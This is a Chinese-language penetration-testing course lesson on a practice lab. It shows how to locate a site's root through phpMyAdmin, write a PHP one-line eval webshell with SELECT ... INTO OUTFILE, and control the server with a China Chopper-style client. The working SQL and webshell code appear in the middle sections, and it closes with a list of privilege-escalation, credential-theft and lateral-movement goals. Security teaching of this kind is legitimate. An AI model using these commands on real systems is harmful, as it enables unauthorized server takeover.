# 网络安全入门：P124：靶场渗透（2）

在本节课中，我们将学习如何利用PHPMyAdmin的漏洞，通过数据库写入网站后门（Webshell），从而获取目标服务器的控制权限。我们将详细讲解操作步骤，并探讨后续的内网渗透思路。



## 🎯 PHPMyAdmin漏洞利用概述

PHPMyAdmin存在两种主要的利用方式。第一种是利用其漏洞直接植入网站后门。第二种是通过翻查其数据库，获取更深层、更敏感的信息。这两种方法都可以用于添加管理员权限。本节我们将重点讲解第一种方法：通过数据库写入Webshell。

很多同学可能了解SQL注入，但未必知道如何通过数据库写入网站后门。接下来，我们将学习这一技巧。本章内容在网上也能找到，但我们会进行拓展，讲解后续应该怎么做。

## 🛠️ 写入Webshell木马

以下是写入Webshell的具体操作步骤。请注意，所有关键命令和脚本都会在课后资料中提供，无需死记硬背，直接复制使用即可。

**第一步：定位网站目录路径**

首先，我们需要知道目标网站的根目录在哪里。可以通过执行特定的SQL查询语句来获取。

```sql
SELECT @@basedir;
```

通过返回的路径，可以推导出网站路径。一个经验方法是：将路径中的“mysql”替换为“www”，这通常是网站的根目录。这是总结出的经验，无需深究原因，照做即可成功。

**第二步：写入一句话木马文件**

知道网站路径后，我们就可以利用SQL语句将一句话木马写入该目录下的一个PHP文件中。





```sql
SELECT "<?php @eval($_POST[‘21‘]);?>" INTO OUTFILE ‘网站根目录路径\\21.php‘;
```



**关键点说明：**
*   `<?php @eval($_POST[‘21‘]);?>` 是一句话木马的经典代码，其中“21”是连接密码。
*   `INTO OUTFILE` 用于将查询结果写入文件。
*   文件路径中的斜杠（`/`）需要改为两个反斜杠（`\\`），这是MySQL语法的要求。
*   `21.php` 是我们将在目标服务器上创建的木马文件。

执行此语句后，如果页面返回空白，通常意味着文件写入成功。此时，访问 `http://目标地址/21.php` 将会是一个空白页面，但这正是木马所在。

## 🔗 使用工具连接Webshell



写入木马后，我们需要使用客户端工具来连接并控制它。这里我们使用一款对新手友好的工具：C刀（中国菜刀的改良版）。

1.  打开C刀工具。
2.  点击“添加”，在地址栏填入木马文件的URL：`http://目标IP地址/21.php`。
3.  在密码栏填入一句话木马中设定的密码，本例中是 `21`。
4.  添加后，双击该记录进行连接。

连接成功后，你将获得目标服务器的Webshell权限。通过C刀的界面，你可以执行系统命令、浏览文件、上传下载工具等。例如，输入 `ipconfig` 可以查看服务器的网络配置，确认我们控制的就是目标机器（例如IP为192.168.80.150的Win7系统）。





## 💡 思路回顾与内网渗透思考



至此，我们完成了一次完整的攻击：**发现PHPMyAdmin漏洞 -> 通过SQL写入Webshell -> 使用工具连接获得服务器权限**。



然而，对于内网渗透而言，控制一台机器往往只是开始。我们需要思考如何深入利用。以下是几个关键的后续问题：







**以下是三个值得深入探索的方向：**





1.  **权限提升（提权）**：目前我们获得的可能是Web服务的普通权限。如何提升到系统管理员（如SYSTEM）权限，以进行更彻底的控制？
2.  **获取其他应用凭证**：我们只拿到了数据库的管理密码。如何利用现有权限，获取该服务器上其他重要应用（如Joomla!博客后台）的管理员密码？
3.  **获取系统用户密码**：能否直接提取Windows系统本地管理员的密码哈希或明文密码？掌握最高权限的凭证，许多问题将迎刃而解。
4.  **内网横向移动**：在目标内网中，通常存在其他不直接连接互联网的机器（如银行、医院的内网业务机）。如何以当前控制的机器为跳板，去发现并攻击内网中的第二台、第三台主机？



## 📚 本节课总结



在本节课中，我们一起学习了如何利用PHPMyAdmin漏洞向目标服务器写入一句话木马（Webshell），并使用C刀工具成功连接，获得了对目标系统的初步控制权。我们演示了从SQL注入到获取系统Shell的完整流程。



更重要的是，我们提出了内网渗透中几个关键的后续思考点：权限提升、凭证获取和横向移动。这些是网络安全实战中从“入门”走向“深入”必须掌握的技能。课后请结合提供的靶场环境和资料进行反复练习和复现，才能真正消化吸收。记住，实战是学习网络安全的最佳途径。